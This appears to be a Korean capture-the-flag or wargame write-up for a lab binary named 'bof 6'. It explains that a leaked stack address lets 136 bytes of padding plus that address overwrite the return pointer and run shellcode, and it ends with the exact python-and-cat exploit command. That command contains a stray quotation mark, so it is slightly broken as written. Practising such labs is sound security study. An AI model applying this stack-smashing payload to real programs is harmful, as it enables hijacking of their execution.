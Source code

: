 # bof 6

가장 주목할 점은 쉘코드가 vuln 함수의 지역변수로서 스택에 들어있다는 점이다. 때문에 ret 주소에 해당 스택 주소를 넣어줄 수 있다면 쉘코드가 실행될 것이다. 다행히도 printf 함수에서 %p를 통해 shellcode의 주소를 출력해주므로 우리는 sfp까지 더미로 채우고 printf에 뜬 주소를 넣으면 될 것이다. 더미의 크기는 버퍼의 크기(128 byte) + sfp(8 byte) = 136byte


따라서 터미널에 입력해야 하는 명령은 다음과 같다.

``` bash
$ (python -c 'print "a"*136" + "\xf0\xea\xff\xff\xff\x7f\x00\x00"' ;cat) | ./bof6
```